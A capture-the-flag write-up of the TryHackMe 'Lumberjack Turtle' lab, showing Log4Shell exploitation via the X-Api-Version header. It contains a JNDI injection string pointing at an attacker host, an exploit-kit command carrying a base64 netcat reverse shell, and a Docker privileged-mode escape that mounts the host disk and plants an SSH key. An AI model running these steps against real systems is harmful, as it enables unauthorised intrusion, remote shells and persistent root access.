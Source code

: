 ```yaml
---
title: "Lumberjack Turtle Writeup"
date: 2022-02-01T01:25:08+05:30
draft: false
---
```


---
**Difficulty**: Medium Room  
**Description**: No logs, no crime… so says the lumberjack.

---

Hey folks, here is the writeup for the [Lumberjack Turtle](https://tryhackme.com/room/lumberjackturtle) room from TryHackme.

# Enumeration

## Nmap
```bash
PORT      STATE    SERVICE     VERSION
22/tcp    open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6a:a1:2d:13:6c:8f:3a:2d:e3:ed:84:f4:c7:bf:20:32 (RSA)
|   256 1d:ac:5b:d6:7c:0c:7b:5b:d4:fe:e8:fc:a1:6a:df:7a (ECDSA)
|_  256 13:ee:51:78:41:7e:3f:54:3b:9a:24:9b:06:e2:d5:14 (ED25519)
80/tcp    open     nagios-nsca Nagios NSCA
|_http-title: Site doesn't have a title (text/plain;charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
22450/tcp filtered unknown
24740/tcp filtered unknown
25611/tcp filtered unknown
25974/tcp filtered unknown
30751/tcp filtered unknown
33989/tcp filtered unknown
36786/tcp filtered unknown
42724/tcp filtered unknown
50865/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Website (Port 80)

Visiting any random non-existent page (`/test`) throws this error with 404 status code.

![](/images/img-lumberjack-turtle-writeup-0.png)

Visiting `/error` gives the `status=999` in the error message with 500 status code.

![](/images/img-lumberjack-turtle-writeup-1.png)

I did some recursive directory enumeration and found the `/~logs/log4j` directory.

![](/images/img-lumberjack-turtle-writeup-2.png)

The response header `X-THM-HINT: CVE-2021-44228 against X-Api-Version` hints us that we have to use the `X-Api-Version` header.

Also, **CVE-2021–44228** is the Log4Shell vulnerability that affects Apache’s Java logging library Log4j which allows attackers to run commands on the affected systems remotely. It got a CVSS score of 10.0 which is the highest possible score.

![](/images/img-lumberjack-turtle-writeup-3.png)

# Exploitation

Try sending a request with `X-Api-Version: ${jndi:ldap://ATTACKER-IP:3333}` to the server. Also, keep a netcat listener running at port 3333. The netcat listener will listen a connection from the victim machine:

![](/images/img-lumberjack-turtle-writeup-4.png)

With this, we can confirm that the web application is indeed vulnerable as we have received a connection from the application.

Next, `git clone` the [JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit) from GitHub. Follow the instructions on the README.md file in the github repo. Now, change directory to the JNDI-Exploit-Kit directory and run the exploit:
```bash
java -jar target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -L "10.9.4.84:1389" -C "echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAxMC45LjQuODQgOTk5OSA+L3RtcC9m | base64 -d | bash"
```

The base64 payload is a simple reverse shell that connects back to our attacker machine at port 9999.

![](/images/img-lumberjack-turtle-writeup-5.png)

Grab the exploit URL from the output shown above and send the request.

Make sure to keep a listener running on port 9999.

# Privilege escalation

We get a shell as root. But it is actually inside a docker container.

![](/images/img-lumberjack-turtle-writeup-6.png)

The flag1 is located at `/opt/.flag1` Running linpeas, we can see that privileged mode is enabled. It allows us to access the host filesystem from within the docker container. We can do so by simply mounting the disk.

![](/images/img-lumberjack-turtle-writeup-7.png)

Check for disks in the system with `fdisk -l`

![](/images/img-lumberjack-turtle-writeup-8.png)

The host uses the disk at `/dev/xvda1`. Create a folder at `/mnt/host` and mount the drive:
```bash
mount /dev/xvda1 /mnt/host
```
The host filesystem can be accessed from `/mnt/host`. Use `chroot /mnt/host` to change the root filesystem. Create a SSH key pair and get a SSH session with the `id_rsa` file:
```bash
|07:52:33| root@81fbbf1def70:~/.ssh$ ls
total 16
drwx------ 2 root root 4096 Feb  1 07:52 .
drwx------ 4 root root 4096 Dec 13 01:25 ..
-rw------- 1 root root    0 Dec 13 01:23 authorized_keys
-rw------- 1 root root 1675 Feb  1 07:52 id_rsa
-rw-r--r-- 1 root root  399 Feb  1 07:52 id_rsa.pub
|07:52:47| root@81fbbf1def70:~/.ssh$ cat id_rsa.pub  >> authorized_keys
```

Log in and you’ll see a directory `/root/...`. The root flag is in this folder.

![](/images/img-lumberjack-turtle-writeup-9.png)

Happy hacking !

> Originally written on https://manash01.medium.com/lumberjack-turtle-writeup-29b647e9b694
